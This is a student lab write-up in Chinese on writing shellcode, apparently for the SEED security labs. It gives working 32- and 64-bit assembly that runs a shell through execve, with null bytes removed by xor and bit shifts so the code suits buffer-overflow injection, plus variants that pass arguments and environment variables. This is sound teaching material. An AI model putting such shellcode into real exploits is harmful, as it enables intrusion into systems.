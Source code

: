 <center><strong>Lab5 write shellcode</strong></center>

# 实验过程

## Task1

### 1.a mysh

首先对已有的代码文件mysh.s进行编译链接：

```sh
# Compiling to object code.
nasm -f elf32 mysh.s -o mysh.o
# Linking to generate final binary.
ld -m elf_i386 mysh.o -o mysh
```

获取到可执行二进制文件mysh后，`mysh`执行，可以得到一个shell，执行`echo $$`打印当前shell的进程ID![image-20221027185744308](http://hexo-git.oss-cn-beijing.aliyuncs.com/img/image-20221027185744308.png)

利用`objdump`从mysh.o中获取汇编代码：

```sh
objdump -Mintel --disassemble mysh.o
```

![结果与代码的对照](http://hexo-git.oss-cn-beijing.aliyuncs.com/img/image-20221027190529506.png)

利用`xxd -p -c 20 mysh.o`也可以得到机器码，但是是用字节表示的，因此我们可以利用convert.py将`xxd`的输出变成数组形式以便于插入攻击代码中。<img src="http://hexo-git.oss-cn-beijing.aliyuncs.com/img/image-20221027191324029.png" alt="image-20221027191324029" style="zoom:80%;" />![image-20221027191250988](http://hexo-git.oss-cn-beijing.aliyuncs.com/img/image-20221027191250988.png)

### 1.b 从代码中消除零

在缓冲区溢出攻击中我们利用了strcpy函数不检查数组边界的特性，但是它会检查字符串结尾符(0x00)，在复制过程中遇到0就会终止。在mysh.s中有4处用到0但不在机器码中直接体现的情况：

1. 参数0-eax寄存器，`xor eax, eax`对相同值逐位异或得到全零的eax寄存器。
2. 参数1-ebx寄存器，保存命令字符串`bin/bash`的地址，借用eax构造字符串终止符`0x00`。
3. eax寄存器，保存11(execve的系统调用号)。直接赋值`mov eax 0x0000000b`(32位)会出现截止符，通过以下两个步骤
   1. `xor eax, eax`：eax清零；
   2. `mov al,0x0b`：将8位数据`0x0b`传递到AL(eax的低8位)
4. edx寄存器，保存想传给新程序的环境变量地址，通过`xor edx, edx`使得edx=0.

task：不通过增加斜杠`/`的方法获取shell(多个斜杠在系统处理中被理解为1个，push必须接32位的数)。我们选择`#`作为填充字符，然后通过移位的方式得到0。代码修改：

```assembly
xor eax, eax		;eax异或清零
mov eax, "h###"		;eax=23232368
shl eax, 24			;左移24位，eax=68000000
shr eax, 24			;右移24位eax=00000068=h\0
push eax
push "/bas"
push "/bin"
mov  ebx, esp     	; Get the string address
xor eax, eax		;eax异或清零作为参数argv[1]
```

编译执行，获得shell。

### 1.c 添加参数

思路与1.b类似，对参数进行拆分，需要0x00截止符的时候就通过移位或者补充斜杠来获得。获取参数地址：

```assembly
; Store the argument string on stack
xor  eax, eax 
mov eax, "la##"
shl eax, 16
shr eax, 16 
push eax
push "ls -"
mov edx,esp       ; get addr of "ls -la"           

xor  eax, eax 
mov eax, "-c##"
shl eax, 16
shr eax, 16
push eax          
mov ecx, esp      ; get addr of "-c"

xor  eax, eax 
push eax          ; Use 0 to terminate the string
push "//sh"
push "/bin"
mov  ebx, esp     ; get addr of "/bin/sh"

xor eax, eax      ; 清零作为最后一个参数
```

然后将参数逆序压栈，编译执行结果如下：成功执行`ls -la`，图略

### 1.d 传环境变量

字符串的构造与上文类似，移位构造截止符。环境变量的数组构造部分：（高地址先入栈）

```assembly
; For environment variable 
push eax	; env[3]=0 
push edx	; env[2]="cccc=1234"
push ecx 	; env[1]="bbb=5678"
push ebx	; env[0]="aaa=1234"
mov edx, esp; 得到环境变量数组的地址
```

然后把execve的第一个参数改为`/usr/bin/env`，编译执行，输出了三个变量

## Task2

### 代码解释

```assembly
one:
 	pop ebx		; 将栈中最顶层的值弹出装入ebx中
 	xor eax, eax	; eax异或清零
 	mov [ebx+7], al	; 将al的值装入ebx的值加上7所指向的地址中
 	mov [ebx+8], ebx ; 将ebx的值装入ebx的值加上8所指向的地址中
 	mov [ebx+12], eax; 将eax的值装入ebx的值加上12的所指向的地址中
 	lea ecx, [ebx+8]; 使得ecx=ebx+8的地址
 	xor edx, edx	; edx异或清零
 	mov al,  0x0b	; 给al赋值0x0b
 	int 0x80		; 中断，为该程序实现系统调用
two:
 	call one		; call将函数one压入栈中，再跳转到函数one
 	db '/bin/sh*AAAABBBB';存储字符串,调用函数时会压入栈作为返回地址
```

1. 程序先`jmp short two`开始执行two函数，进入two后又调用了one
2. call调用的下一条语句是存储了一个字符串，调用函数时会将下一条语句的地址压入栈作为返回地址，因此字符串的地址被压入栈；
3. 到了one函数中，调用了pop把栈顶(字符串的地址)取出并放入了ebx中，这样就获取到了字符串的地址；
4. 后面内容与mysh.s类似，将字符串中的*占位符和参数1用0覆盖，将ecx指向参数地址，为eax赋值11(execve的调用值)。

### 修改代码

修改代码输出环境变量：

```assembly
one:
    pop ebx
    xor eax, eax
    mov [ebx+12], eax
    mov [ebx+20], eax
    mov [ebx+28], eax	; 将*占位符都改为00截止符

    lea ecx, [ebx+16]
    mov [ebx+32], ecx	; addr of env[0]="a=11\0"
    lea ecx, [ebx+24]
    mov [ebx+36], ecx	; addr of env[1]="b=22\0"
    mov [ebx+40], eax	; env[2]=0
    lea edx, [ebx+32]	; 获得env[]的地址，存在edx中

    mov [ebx+44], ebx	; addr of argv[0]="/usr/bin/env\0"
    mov [ebx+48], eax	; argv[1]=0
    lea ecx, [ebx+44]	; 获得argv[]的地址，存在ecx中

    mov al,  0x0b
    int 0x80
two:
    call one
    db '/usr/bin/env****'
    db 'a=11****'
    db 'b=22****'
    db 'AAAA'
    db 'BBBB'
    db 'CCCC'
    db 'DDDD'
    db 'EEEE' 
```

**重难点：对lea和mov的理解；数组在内存中的存储情况。**

## Task3

仿照Task1.b实现64位的shellcode编写，即利用移位获取0x00.主要修改如下：

```assembly
mov rax, "h#######"
shl rax, 56
shr rax, 56
push rax
mov rax, "/bin/bas"
push rax
```

# 总结

Task用到的一些方法：

- 异或清零，并通过`al`, `ax`,`eax`,`rax`获取8位，16位，32位，64位的零；
- 移位：在字符串末尾填充一定数量的字符，并通过逻辑移位获得末尾的0；
- 先通过占位符传入一定长度的字符串，获取到字符串首地址后可以根据偏移量对其他位置进行操作。

# 参考

http://note.blueegg.net.cn/seed-labs/overflow/shellcode/

https://blog.csdn.net/qq_45755706/article/details/123206778

https://blog.csdn.net/day0713/article/details/123172070